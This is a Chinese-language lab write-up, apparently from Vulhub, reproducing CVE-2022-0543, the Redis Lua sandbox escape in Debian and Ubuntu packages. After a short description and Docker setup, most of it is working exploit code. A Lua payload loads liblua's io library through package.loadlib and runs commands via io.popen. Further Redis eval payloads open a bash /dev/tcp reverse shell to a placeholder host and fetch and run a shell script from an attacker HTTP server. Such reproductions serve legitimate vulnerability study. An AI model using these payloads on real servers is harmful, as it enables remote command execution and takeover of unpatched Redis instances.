


# Redis Lua 沙盒绕过命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
- https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787

## 环境搭建

Vulhub执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker-compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```



### 反弹shell

直接bash反弹shell失败，尝试其他方法。

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -i >& /dev/tcp/your-ip/6666 0>&1", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/your-ip/6666 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

受控端执行以下两条命令即可反弹shell：

```
# 上传shell.sh文件
wget your-ip/shell.sh

# 执行shell.sh文件
bash shell.sh
```

结合当前漏洞，连接redis，使用`eval`命令执行脚本：

```
# 上传shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("wget your-ip/shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0

# 执行shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端监听666端口，成功接收反弹shell：

